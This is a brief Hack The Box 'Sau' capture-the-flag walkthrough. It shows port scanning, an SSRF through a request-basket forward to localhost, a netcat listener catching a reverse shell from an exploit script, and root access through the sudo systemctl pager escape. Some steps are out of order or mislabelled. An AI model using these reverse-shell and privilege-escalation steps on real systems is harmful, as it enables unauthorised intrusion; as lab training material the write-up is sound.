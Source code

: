 # HTB_Sau
Walkthrough Hack The Box: Sau

# IP: 10.10.11.224

# Step 1: Scanning

 $ rustscan -a 10.10.11.224

 $ sudo nmap -sC -sV -oN map.txt 10.10.11.224

 # Step 2:

 Access website

 http://10.10.11.224:55555/web

 Create your basket

 Open basket configuration setting and enter loopback IP http://127.0.0.1:80/ & tick all boxes

 Copy the link Generated: http://10.10.11.224:55555/abhishek

 # Step 3:

 Open two terminals A & B

 ## Terminal A:
Start Listener
$ nc -lnvp 9999

 ## Terminal B:
 Run exploit 

 $ python3 sau_script.py 10.10.14.158 9999 http://10.10.11.224:55555/abhishek 

 ## Back to Terminal A: Reverse Shell Opened

ls

cat root.txt

cd

sudo -l

sudo systemctl status trail.service

!sh -> to terminate

cd

ls

cat root.txt



 
